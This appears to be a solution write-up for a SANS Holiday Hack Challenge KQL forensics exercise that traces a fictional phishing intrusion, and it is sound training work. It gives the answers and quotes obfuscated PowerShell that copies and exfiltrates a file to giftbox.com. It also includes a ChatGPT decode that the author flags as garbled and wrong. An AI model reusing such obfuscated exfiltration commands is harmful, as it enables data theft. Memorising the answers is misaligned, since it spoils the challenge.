# KQL Kraken Hunt

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Kusto Detective](https://detective.kusto.io/sans2023)

## Objective

!!! question "Request"
    Use Azure Data Explorer to [uncover misdeeds](https://detective.kusto.io/sans2023) in Santa's IT enterprise. Go to Film Noir Island and talk to Tangle Coalbox for more information.

??? quote "Tangle Coalbox"
    Greetings, rookie. Tangle Coalbox of Kusto Detective Agency here.<br/>
    I've got a network infection case on Film Noir Island that needs your expertise.<br/>
    Seems like someone clicked a phishing link within a client's organization, and trouble's brewing.<br/>
    I'm swamped with cases, so I need an extra pair of hands. You up for the challenge?<br/>
    You'll be utilizing the Azure Data Explorer and those KQL skills of yours to investigate this incident.<br/>
    Before you start, you'll need to [create a free cluster](https://dataexplorer.azure.com/freecluster).<br/>
    Keep your eyes peeled for suspicious activity, IP addresses, and patterns that'll help us crack this case wide open.<br/>
    Remember, kid, time is of the essence. The sooner we can resolve this issue, the better.<br/>
    If you run into any problems, just give me a holler, I've got your back.<br/>
    Good hunting, and let's bring this cyber criminal to justice.<br/>
    Once you've got the intel we need, report back and we'll plan our next move. Stay sharp, rookie.<br/>

## Hints

??? tip "Outbound Connections"
    *From: Tangle Coalbox*<br/>
    *Objective: KQL Kraken Hunt*<br/>
    Do you need to find something that happened via a process? Pay attention to the *ProcessEvents* table!

??? tip "KQL Tutorial"
    *From: Tangle Coalbox*<br/>
    *Objective: KQL Kraken Hunt*<br/>
    Once you get into the [Kusto trainer](https://detective.kusto.io/sans2023), click the blue *Train me for the case* button to get familiar with KQL.

??? tip "File Creation"
    *From: Tangle Coalbox*<br/>
    *Objective: KQL Kraken Hunt*<br/>
    Looking for a file that was created on a victim system? Don't forget the *FileCreationEvents* table.

## Solution

To get started we need to navigate to the [Kusto Detective Agency](https://detective.kusto.io/sans2023) site and follow the [FAQ](https://detective.kusto.io/faq?index=1) to create an account, free cluster, and log in to the agency. Following the Hint "KQL Tutorial", we can click on the *Train me for the case* button to learn more about KQL.

Below each Case summary I've included a screenshot of the queries I used to answer the questions for that case.

!!! question "Onboarding"
    How many Craftperson Elf's are working from laptops?<br/>
    **25**




!!! question "Case 1"
    What is the email address of the employee who received this phishing email?<br/>
    **alabaster_snowball@santaworkshopgeeseislands.org**
    <br/><br/>
    What is the email address that was used to send this spear phishing email?<br/>
    **cwombley@gmail.com**<br/><br/>
    What was the subject line used in the spear phishing email?<br/>
    **[EXTERNAL] Invoice foir reindeer food past due**






!!! question "Case 2"
    Nicely done! You found evidence of the spear phishing email targeting someone in our organization. Now, we need to learn more about who the victim is!<br/>
    If the victim is someone important, our organization could be doomed! Hurry up, let's find out more about who was impacted!<br/><br/>
    What is the role of our victim in the organization?<br/>
    **Head Elf**
    <br/><br/>
    What is the hostname of the victim's machine?<br/>
    **Y1US-DESKTOP**
    <br/><br/>
    What is the source IP linked to the victim?<br/>
    **10.10.0.4**




!!! question "Case 3"
    The victim is Alabaster Snowball? Oh no... that's not good at all! Can you try to find what else the attackers might have done after they sent Alabaster the phishing email?<br/>
    Use our various security log datasources to uncover more details about what happened to Alabaster.<br/><br/>
    What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!<br/>
    **2023-12-02T10:12:42Z**<br/><br/>
    What file is dropped to Alabaster's machine shortly after he downloads the malicious file?<br/>
    **giftwrap.exe**





!!! question "Case 4"
    Well, that's not good. It looks like Alabaster clicked on the link and downloaded a suspicious file. I don't know exactly what giftwrap.exe does, but it seems bad.<br/>
    Can you take a closer look at endpoint data from Alabaster's machine? We need to figure out exactly what happened here. Word of this hack is starting to spread to the other elves, so work quickly and quietly!<br/><br/>
    The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?<br/>
    **113.37.9.17:22**<br/><br/>
    What is the timestamp when the attackers enumerated network shares on the machine?<br/>
    **2023-12-02T16:51:44Z**<br/><br/>
    What was the hostname of the system the attacker moved laterally to?<br/><br/>
    **NorthPolefileshare**


    



!!! question "Case 5"
    Wow, you're unstoppable! Great work finding the malicious activity on Alabaster's machine. I've been looking a bit myself and... I'm stuck. The messages seem to be garbled. Do you think you can try to decode them and find out what's happening?<br/>
    Look around for encoded commands. Use your skills to decode them and find the true meaning of the attacker's intent! Some of these might be extra tricky and require extra steps to fully decode! Good luck!<br/>
    If you need some extra help with base64 encoding and decoding, click on the 'Train me for this case' button at the top-right of your screen.<br/><br/>
    When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?<br/>
    **2023-12-24T16:07:47Z**<br/><br/>
    What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)<br/>
    **NaughtyNiceList.txt**<br/><br/>
    The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?<br/>
    **giftbox.com**<br/>

I used ChatGPT to assist with several parts of Case 5. I attempted to have it reverse the file name from question 2, but as you can see below, ChatGPT struggled and in fact, never did provide the correct answer with any of my prompts. 

??? example "See AI Assistance"
    **My Prompt:** can you mirror image this text?
    ( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split ''
    | %{$_[0]}) -join '' <br/><br/>
    **ChatGPT Response:** Certainly! Here's the mirrored text:<br/>
    ```
    powerShell.exe -C \$MissionControl\NotherLife\Placeholders\c$\$MissionControl\NotherLife\Placeholders\NaguthciNyceleStxt.C\$MissionControl\NotherLife\Placeholders\NaguthciNyceleStxt.C\:DokstepN\NaguthciNyceleStxt.C\:DokstepN
    ```
    *Not quite right...I tried several iterations of this type of prompt, but ChatGPT continued to get confused and not provide the correct answer.*

ChatGPT did give me a breakthrough for question 3. I spent a lot of time attempting to decode the decimal number array on my own, but a few well-formatted prompts to ChatGPT provided the info I was looking for - that the numbers were Unicode characters. Everything fell into place quickly after that realization. 

??? example "See AI Assistance"
    **My Prompt:** what does this text mean?
    ```
    [StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120,
    102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105,
    115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv
    '*MDr*').NamE[3,11,2]-joiN
    ``` 
    <br/>
    **ChatGPT Response:** The provided text is a PowerShell command that decodes a list of numeric values into a string and then joins the characters. Here's a breakdown of the command:<br/>
    ```
    [StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120,
    102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105,
    115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv
    '*MDr*').NamE[3,11,2]-joiN
    ```
    Breaking it down:<br/>
    1. `[ChaR[]](...)`: This part creates an array of characters using the numeric values provided.<br/>
    2. `[StRiNg]::JoIn( '', ...):` Joins the characters from the array into a single string with an empty separator.<br/>
    3. `|& ((gv '*MDr*').NamE[3,11,2]-joiN`: This part uses the |& operator to pass the result of the previous command as an argument to
    another command. It retrieves a specific method from the property named 'Name' of an object obtained using the wildcard pattern
    'MDr' (presumably a variable or object in the PowerShell environment) and then calls the -joiN method, which is essentially an alias
    for the Join-Path cmdlet. The specific indices [3, 11, 2] are used to select particular characters from the 'Name' property.<br/>
    <br/>To fully understand the command, you would need to know the content of the variable or object represented by 'MDr' and the
    purpose of extracting specific characters from its 'Name' property. Without this context, the command's exact functionality may not
    be clear.<br/><br/>
    **My Prompt:**what does this mean?
    ```
    ( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108,
    32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46,
    100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))
    ```
    <br/>
    **ChatGPT Response:**This PowerShell code appears to create an array of characters using the [char[]] syntax and a list of numeric
    values, and then joins these characters into a single string using an empty separator. Let's break it down:<br/>
    ```
    ('', [char[]](100, 111, 119, ... 101)) 
    ```
    1. `''`: An empty string.<br/>
    2. `[char[]](...)`: Creates an array of characters using the provided numeric values. Each numeric value corresponds to a Unicode
    character.
    The numeric values in the list seem to represent ASCII or Unicode values for characters, forming a sequence of characters that make
    up a file path or command. The entire expression (`'', [char[]](...)` ) creates an array containing an empty string and another array
    of characters.<br/><br/>
    **My Prompt:** translate the following array of decimal unicode characters to their ascii character
    100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92,
    92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99,
    120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101 <br/>
    **ChatGPT Response:** Certainly! Let's translate the array of decimal Unicode values to their corresponding ASCII characters:<br/>
    ```
    $unicodeArray = 100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 
    32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46,
    100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101
    
    # Convert each Unicode value to its corresponding ASCII character
    $asciiArray = $unicodeArray | ForEach-Object { [char]$_ }
    
    # Join the characters into a single string
    $asciiString = -join $asciiArray
    
    # Display the resulting string
    $asciiString
    ```
    The resulting string is:
    ```
    downwithsanta.exe - exfil C:\Desktop\\NaughtNiceList.docx \\giftbox.com\file
    ```




!!! question "Case 6"
    Wow! You decoded those secret messages with easy! You're a rockstar. It seems like we're getting near the end of this investigation, but we need your help with one more thing...<br/>
    We know that the attackers stole Santa's naughty or nice list. What else happened? Can you find the final malicious command the attacker ran?<br/><br/>
    What is the name of the executable the attackers used in the final malicious command?<br/>
    **downwithsanta.exe**<br/><br/>
    What was the command line flag used alongside this executable?<br/>
    **--wipeall**<br/>




!!! question "Congratulations!"
    Congratulations, you've cracked the Kusto detective agency section of the Holiday Hack Challenge!<br/>
    By now, you've likely pieced together the broader narrative of the alert we received. It all started with Wombley Cube, a skilled
    Craftsperson, and a malicious insider, who sent an email to the esteemed head elf, Alabaster Snowball. This seemingly innocent email
    contained a dangerous link leading to the malicious domain, MadElvesNorthPole.org. Alabaster Snowball, from his PC, unwittingly
    clicked on the link, resulting in the download and execution of malicious payloads. Notably, you've also discerned Wombley Cube's
    ulterior motive: to pilfer a copy of Santa's naughty or nice list and erase the data on the share drive containing critical
    information to Santa's operations. Kudos to you!<br/>
    To earn credit for your fantastic work, return to the Holiday Hack Challenge and enter the secret phrase which is the result of
    running this query:
    ```
    print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
    ```

!!! success "Answer"
    Beware the Cube that Wombles

## Response

!!! quote "Insert Elf Name"
    I had my doubts, but you've proven your worth.<br/>
    That phishing scheme won't trouble our client's organization anymore, thanks to your keen eye and investigatory prowess.<br/>
    So long, Gumshoe, and be careful out there.
